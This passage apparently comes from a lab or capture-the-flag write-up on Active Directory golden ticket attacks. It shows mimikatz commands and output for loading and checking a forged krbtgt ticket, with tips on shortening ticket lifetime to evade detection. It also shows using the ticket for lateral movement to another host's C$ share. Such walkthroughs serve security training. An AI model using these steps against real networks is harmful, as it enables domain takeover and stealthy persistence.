 > **Notice**
> - **Keep in mind of the command format**: Use Single quote to contain commands with double quote
> - By default, mimikatz will generate TGT with a very long validity, which is suspicious. limit the TGT to be expired in 10 minutes is more OPSEC safe
> - Remove `/ptt` to save ticket to file
{: .prompt-tip }

Use cmd `klist` to confirm that the ticket is loaded

```bash
PS C:\Users\Administrator> klist

Current LogonId is 0:0x1b6f60
Cached Tickets: (1)


#0>     Client: Administrator @ CONTROLLER.local
        Server: krbtgt/CONTROLLER.local @ CONTROLLER.local
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 6/8/2023 8:24:37 (local)
        End Time:   6/8/2023 18:24:37 (local)
        Renew Time: 6/15/2023 8:24:37 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

> **Notice**
> When klist result coudn't output to reverse shell (weird but actually happened) , use `kerberos::list` instead
{: .prompt-tip }

```bash
PS C:\> Invoke-Mimikatz -Command '"kerberos::list"'
Hostname: DOMAIN-CONTROLL / S-1-5-21-849420856-2351964222-986696166

mimikatz(powershell) # kerberos::list

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 6/8/2023 8:11:20 AM ; 6/8/2023 6:11:20 PM ; 6/15/2023 8:11:20 AM
   Server Name       : krbtgt/CONTROLLER.local @ CONTROLLER.local
   Client Name       : Administrator @ CONTROLLER.local
   Flags 40e00000    : pre_authent ; initial ; renewable ; forwardable ;
```


### Use the Golden Ticket to access other machine

> `misc::cmd` - This will open a new command prompt with elevated privileges to all machines

```bash
PS C:\> net group "Domain Computers"
Group name     Domain Computers
Comment        All workstations and servers joined to the domain

Members

-------------------------------------------------------------------------------
DESKTOP-1$               DESKTOP-2$
The command completed successfully.

PS C:\> dir \\DESKTOP-2\C$
...
```
